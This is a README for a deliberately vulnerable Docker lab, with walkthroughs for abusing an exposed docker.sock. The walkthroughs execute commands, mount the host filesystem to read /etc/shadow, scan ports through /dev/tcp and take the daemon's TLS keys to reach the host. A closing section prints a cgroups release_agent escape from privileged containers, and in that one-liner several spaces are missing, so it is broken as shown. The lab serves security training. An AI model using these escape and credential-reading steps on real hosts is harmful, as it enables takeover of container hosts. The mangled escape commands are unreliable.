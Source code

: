 # Damn Vulnerable Docker Container

## Getting Started

```
$ docker build --tag dvdc:1.0 .
$ docker run -d --network host -v /var/run/docker.sock:/var/run/docker.sock --name dvdc dvdc:1.0
```

## Exercises

### Docker Sockets

#### Exercise 1: Querying the API

In this exercise, the host's docker.sock will be exposed to the container. To get started, drop into a local shell:
```
docker exec -it dvdc /bin/bash
```

With the exposed socket you can make API calls to query running containers, start new containers, and even break out to the host. In this exercises, try to find out what version of Docker is running using the API.

<details>
    <summary>Walkthrough</summary>
    
    # Check if the docker socket is mounted
    user@66a0d5faa124:/# file /var/run/docker.sock
    /var/run/docker.sock: socket

    # Check if it's writable
    user@66a0d5faa124:~$ ls -l /var/run/docker.sock
    srw-rw---- 1 root users 0 Jul  6 03:24 /var/run/docker.sock
    user@66a0d5faa124:~$ groups
    user users

    # Query the API
    user@66a0d5faa124:/# curl --unix-socket /var/run/docker.sock http://localhost/version
    {"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"18.09.6","Details":{"ApiVersion":"1.39","Arch":"amd64","BuildTime":"2019-05-04T02:41:08.000000000+00:00","Experimental":"false","GitCommit":"481bc77","GoVersion":"go1.10.8","KernelVersion":"4.14.116-boot2docker","MinAPIVersion":"1.12","Os":"linux"}}],"Version":"18.09.6","ApiVersion":"1.39","MinAPIVersion":"1.12","GitCommit":"481bc77","GoVersion":"go1.10.8","Os":"linux","Arch":"amd64","KernelVersion":"4.14.116-boot2docker","BuildTime":"2019-05-04T02:41:08.000000000+00:00"}
</details>

#### Exercise 2: Command execution

Now that we know we can query the API via the mounted socket we can use the exposed functionality to execute commands as the container's root user. You can use the `/exec` endpoint to accomplish this.

<details>
    <summary>Walkthrough</summary>

    # Send and execute a command
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/dvdc/exec -d '{"AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "touch /tmp/success"]}'
    HTTP/1.1 201 Created
    Api-Version: 1.39
    Content-Type: application/json
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)
    Date: Mon, 06 Jul 2020 06:49:14 GMT
    Content-Length: 74

    {"Id":"dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67"}
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/exec/dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67/start -d '{}'
    HTTP/1.1 200 OK
    Content-Type: application/vnd.docker.raw-stream
    Api-Version: 1.39
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)

    user@66a0d5faa124:~$ ls -la /tmp
    total 8
    drwxrwxrwt 1 root root 4096 Jul  6 06:50 .
    drwxr-xr-x 1 root root 4096 Jul  6 06:45 ..
    -rw-r--r-- 1 user user    0 Jul  6 06:50 success
</details>


#### Exercise 3: Reading the host filesystem

Code execution is great, but the API can be abused to create new containers and read the host filesystem. You can use the `/containers/create` endpoint to do this.
<details>
    <summary>Walkthrough</summary>

    # Deploy a new container called "escape", mount the host's filesystem to `/host` and then run `cat /host/etc/shadow`
    curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d'{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}'"http://localhost/containers/create?name=escape"

    # Start the container
    curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"

    # Read the output of the command
    curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"

    # Clean up
    curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
</details>

#### Exercise 4: Communicating with the Docker Daemon with static docker binaries

Now that you can read the host filesystem you can search for sensitive files. In secure docker environments, the dockerd service uses TLS and requires a client to verify itself with a private key. In this exercise, try to use a docker static binary (found [here](https://download.docker.com/linux/static/stable/)) to connect to the host daemon. If TLS is enforced, use the technique in exercise 3 to read the docker certificates and connect to the host daemon.

<details>
    <summary>Walkthrough</summary>

    # Find the IP address of the host
    user@default:~# ip a
    ... snip ...
    3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 08:00:27:02:66:09 brd ff:ff:ff:ff:ff:ff
        inet 192.168.99.102/24 brd 192.168.99.255 scope global eth1
           valid_lft forever preferred_lft forever
        inet6 fe80::a00:27ff:fe02:6609/64 scope link
           valid_lft forever preferred_lft forever
    ... snip ...
    
    # Find open ports
    user@default:~# for port in {1..65535}; do timeout 1 bash -c "echo > /dev/tcp/192.168.99.102/$port" >& /dev/null && echo "port $port is open"; done
    port 22 is open
    port 2376 is open
    port 32888 is open
    
    # Download docker static binaries
    user@default:~# wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.0.tgz
    Resolving download.docker.com (download.docker.com)... 13.224.180.114, 13.224.180.65, 13.224.180.2, ...
    Connecting to download.docker.com (download.docker.com)|13.224.180.114|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 63255038 (60M) [application/x-tar]
    Saving to: 'docker-19.03.0.tgz'
    
    docker-19.03.0.tgz                       100%[================================================================================>]  60.32M  5.22MB/s    in 11s
    
    2020-07-06 23:16:21 (5.49 MB/s) - 'docker-19.03.0.tgz' saved [63255038/63255038]
    
    # Try to connect to the host
    user@default:~# ./docker/docker -H 192.168.99.102:2376 version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    Get http://192.168.99.102:2376/v1.40/version: net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x15\x03\x01\x00\x02\x02".
    * Are you trying to connect to a TLS-enabled daemon without TLS?
    
    # Try again with tls enabled
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    The server probably has client authentication (--tlsverify) enabled. Please check your TLS client certification settings: Get https://192.168.99.102:2376/v1.40/version: remote error: tls: bad certificate
    
    # Using the technique shown in the previous exercise, find and read the docker certificates.
    # If you installed docker and docker-machine with brew on macos they might be located under `~/.docker/machine/certs/`
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls --tlscert=./ca.pem --tlskey=./ca-key.pem version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.39 (downgraded from 1.40)
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server: Docker Engine - Community
     Engine:
      Version:          18.09.6
      API version:      1.39 (minimum version 1.12)
      Go version:       go1.10.8
      Git commit:       481bc77
      Built:            Sat May  4 02:41:08 2019
      OS/Arch:          linux/amd64
      Experimental:     false
</details>

#### Exercise 5: Breaking out

Being able to use the docker binary within the container allows you to more easily enumerate the environment, read the build history of containers deploy, new containers, and fully break out of the compromised container. In this exercise, use what you heave learned to deploy a new, privileged container which mounts the host file system by using the exposed docker daemon. Once deployed, drop into a shell with `docker exec` to interact with the filesystem.

### Privileged Mode

Docker has a special privileged mode which, if enabled with the `--privileged` flag, allows a container to access all host devices and kernel capabilities. This feature can be abused on linux hosts via `cgroups`.

The following is a quick and dirty way of getting out of a privileged k8 pod or docker container by using the cgroups release agent feature ([source](https://twitter.com/_fel1x/status/1151487051986087936))
```
(host) docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname$(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w
(cont)# echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n's/.*\perdir=\([^,]*\).*/\1/p'/etc/mtab`
(cont)# touch /o
(cont)# echo$t/c >$d/release_agent
(cont)# printf'#!/bin/sh\nps >'"$t/o" >/c
(cont)# chmod +x /c
(cont)# sh -c "echo 0 >$d/w/cgroup.procs"
(cont)# sleep 1
(cont)# cat /o
```

## Resources:
- [Abusing Docker API sockets](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)
- [A Methodology for Penetration Testing Docker Systems](https://www.cs.ru.nl/bachelors-theses/2020/Joren_Vrancken___4593847___A_Methodology_for_Penetration_Testing_Docker_Systems.pdf)
- [Break out the Box](https://github.com/brompwnie/botb)
